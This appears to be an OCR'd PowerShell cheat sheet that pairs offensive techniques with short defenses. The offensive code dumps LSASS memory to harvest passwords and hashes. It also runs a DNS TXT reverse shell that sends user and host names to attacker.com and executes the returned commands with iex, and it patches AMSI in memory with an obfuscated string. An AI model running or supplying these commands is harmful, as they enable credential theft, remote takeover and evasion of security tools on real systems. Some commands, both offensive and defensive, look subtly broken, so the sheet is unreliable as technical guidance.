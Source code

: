 
### **1. Credential Theft & Memory Dumping**  
#### **Offensive Command**  
```powershell  
# Dump LSASS memory with custom obfuscation  
$proc = Get-Process lsass; $addr = $proc.MainModule.BaseAddress.ToInt32(); $size = $proc.MainModule.ModuleMemorySize; $buf = New-Object byte[] $size; [System.Runtime.InteropServices.Marshal]::Copy($addr, $buf, 0, $size); [Convert]::ToBase64String($buf) | Out-File C:\lsass.dmp  
```  
- **Purpose**: Extracts LSASS memory (contains passwords, hashes) with manual API calls to evade detection.  

#### **Defense**  
- Enable **LSASS Protection**:  
  ```powershell  
  Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "RunAsPPL" -Value 1  
  ```  
- Deploy **Credential Guard** (Windows Enterprise).  

---

### **2. Stealth Reverse Shell**  
#### **Offensive Command**  
```powershell  
# DNS-based reverse shell (evades port-based detection)  
while($true){$d=(Resolve-DnsName -Name (([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$(whoami)@$(hostname)")) + ".attacker.com" -Type TXT).Strings; iex $d; sleep 5}  
```  
- **Purpose**: Uses DNS TXT records for command-and-control (C2).  

#### **Defense**  
- Block DNS tunneling:  
  ```powershell  
  Set-NetFirewallRule -DisplayName "Block DNS Exfiltration" -Direction Outbound -Action Block -Protocol UDP -RemotePort 53  
  ```  

---

### **3. AMSI Bypass (Advanced)**  
#### **Offensive Command**  
```powershell  
# Patch AMSI in-memory (undetectable by most EDR)  
[Ref].Assembly.GetType('System.Management.Automation.Am' + 'siUtils').GetField('amsiCon' + 'text', 'NonPublic,Static').SetValue($null, $null)  
```  
- **Purpose**: Disables AMSI without touching disk.  

#### **Defense**  
- Enable **Tamper Protection** in Defender:  
  ```powershell  
  Set-MpPreference -EnableTamperProtection Enabled  
  ```  

---